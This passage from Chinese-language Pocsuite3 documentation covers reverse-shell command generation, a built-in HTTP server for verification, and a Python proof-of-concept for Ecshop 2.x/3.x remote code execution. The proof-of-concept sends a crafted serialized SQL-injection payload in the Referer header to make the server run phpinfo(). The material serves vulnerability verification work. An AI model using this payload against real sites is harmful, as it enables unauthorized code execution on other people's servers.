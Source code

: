 将生成一长串执行指令，执行这些指令便可以反弹出一个 shell。

##### HTTP 服务内置

对于一些需要第三方 HTTP 服务才能验证的漏洞，Pocsuite3 也提供对应的API，支持在本地开启一个 HTTP 服务方便进行验证。

可查看测试用例：https://github.com/knownsec/pocsuite3/blob/master/tests/test_httpserver.py

#### PoC 代码示例<div id="PoCexample"></div>

##### PoC Python 代码示例<div id="pyexample"></div>

[Ecshop 2.x/3.x Remote Code Execution](http://www.seebug.org/vuldb/ssvid-97343) PoC:

```
import base64
from urllib.parse import urljoin

from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.api import REVERSE_PAYLOAD
from pocsuite3.lib.utils import random_str
from requests.exceptions import ReadTimeout


class DemoPOC(POCBase):
    vulID = '97343'  # ssvid
    version = '3.0'
    author = ['seebug']
    vulDate = '2018-06-14'
    createDate = '2018-06-14'
    updateDate = '2018-06-14'
    references = ['https://www.seebug.org/vuldb/ssvid-97343']
    name = 'Ecshop 2.x/3.x Remote Code Execution'
    appPowerLink = ''
    appName = 'ECSHOP'
    appVersion = '2.x,3.x'
    vulType = 'Romote Code Execution'
    desc = '''
    '''
    samples = []
    install_requires = ['']

    def _verify(self):
        result = {}
        path = "user.php?act=login"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
        ]

        for echash in echashs:
            payload = ('{0}ads|a:2:{{s:3:"num";s:116:"*/ select 1,0x2720756E696F6E202F2A,3,4,5,'
                       '6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10'
                       '-- -";s:2:"id";s:10:"\' union /*";}}{0}').format(echash)
            headers = {"Referer": payload}
            try:
                resp = requests.get(url, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    result['VerifyInfo'] = {}
                    result['VerifyInfo']['URL'] = url
                    result['VerifyInfo']['Referer'] = payload
                    break
            except Exception as ex:
                pass
```